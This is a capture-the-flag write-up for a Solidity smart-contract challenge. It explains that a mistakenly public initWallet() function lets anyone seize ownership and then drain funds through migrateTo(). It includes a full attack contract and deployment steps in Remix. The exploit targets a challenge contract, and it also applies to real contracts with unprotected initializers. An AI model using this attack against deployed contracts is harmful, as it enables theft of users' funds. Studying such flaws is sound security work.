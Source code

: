 ## WriteUp

The challenge1.sol smart contract is vulnerable. The constructor was not set well. Instead of constructor, it is a callable function.

There is two step :

# Step 1 : 

Call the function initWallet() to gain the owner rights.

# Step 2 : 

Call the function migrateTo("youraddress") to steal his money.




# AttackContract

With the blockchain running, it can be solve with this smart contract 

'''
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./chall1.sol";

contract Attack {
    Challenge1 public victim;
    mapping(address => uint256) balances;


    constructor(address _victimAddress)payable {
        victim = Challenge1(_victimAddress);
    }

    function beginAttack() external payable {
        victim.initWallet();
        victim.migrateTo(0x723c3E5417cae4425Ae95c2E94E80163Ae3B8101);
    }
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }


}

'''

First deploy this contract in remix with the address of the challenge that the website give you.

Then call beginAttack().

The address in migrateTo() is yours.
